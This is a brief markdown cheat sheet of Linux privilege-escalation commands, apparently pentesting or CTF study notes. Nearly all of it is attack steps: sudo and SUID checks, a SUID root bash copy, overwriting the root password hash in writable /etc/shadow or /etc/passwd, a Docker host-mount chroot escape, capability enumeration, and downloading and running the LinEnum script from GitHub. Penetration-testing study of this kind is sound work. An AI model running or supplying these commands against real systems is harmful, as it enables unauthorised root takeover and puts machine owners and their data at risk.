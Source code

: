 					Sudo 
- Can you su without a password?		       `su root`
- are you already a sudo user?			   `sudo su -`
- what can we run with sudo?			  `sudo -l`
- sudo versions < 1.8.28 are vulnerable to `CVE-2019-14287`

<!-- -->
				Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

				Writable /etc/shadow
`ls -l /etc/shadow`					is /etc/shadow writable?
- mkpasswd -m sha-512 password		Makes password Hash
- replace root password hash with the one you just generated
- su root								switch to root

<!-- -->

			 	Writable /etc/passwd
`ls -l /etc/passwd`					is /etc/passwd writeable?
- `openssl passwd password`			      Generate password hash
- place new password hash between first and second colon (:) of the root user's row (replacing the "x").
- su root							      switch to root

<!-- -->

				Suid
- Find all Suids `find / -perm -u=s -type f 2>/dev/null`

<!-- -->

				Docker
- get image name using 'docker ps'
- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

<!-- -->
				Identify Capabilities

`getcap -r / 2>/dev/null`

				LinEnum
-- wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
-- ./LinEnum.sh -t -r report.txt



				Misc
-- https://gtfobins.github.io/